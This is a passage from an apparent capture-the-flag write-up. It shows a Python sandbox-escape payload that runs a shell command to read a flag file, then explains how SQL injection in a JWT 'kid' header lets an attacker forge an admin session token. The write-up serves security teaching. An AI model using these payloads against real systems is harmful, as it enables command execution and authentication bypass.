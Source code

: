 ```

Now we can modify the exploit to cat out the flag and we should be done with the challenge.

```python
__builtins__.__dict__['__import__']("os").system("cat flag.txt")
```

> flag{we_are_saved_from_py2_k}

### Skid
I wasn't able to finish this one (but I came back to it later). 
First I'll show you my original thought process.

We can find the following session:

>eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6InNraWQifQ.eyJ1c2VybmFtZSI6InNraWQifQ.sacXoUrQCXpaylE4a4RGrCawHqBJJVGfOozOaPxQqOo

We can enter this in a JWT decoder and decode the following header:

```json
{
  "typ" : "JWT",
  "alg" : "HS256",
  "kid" : "skid"
}
```

Along with the following body
```json
{
  "username" : "skid"
}
```

I had assumed that the username had to be changed to **Congon4tor** (the name of the user posting) and do another challenge to reach admin.
Changing the username field crashes the site, and I never read the error as I was running out of time, changing the username was my only lead, so I gave up there assuming I wouldn't be able to figure out the solution in time.

Now for the solution, the **kid** field is actually what's called a key identifier, this is used to let the server know which key was used to sign the token.
Changing this field will cause an sqlite3 error, we can now abuse this sql injection to sign our own token.

```json

{
  "typ" : "JWT",
  "alg" : "HS256",
  "kid" : "qwerty' UNION SELECT 'a', 'b', 'c'"
}
```

```json
{
  "username" : "admin"
}
```
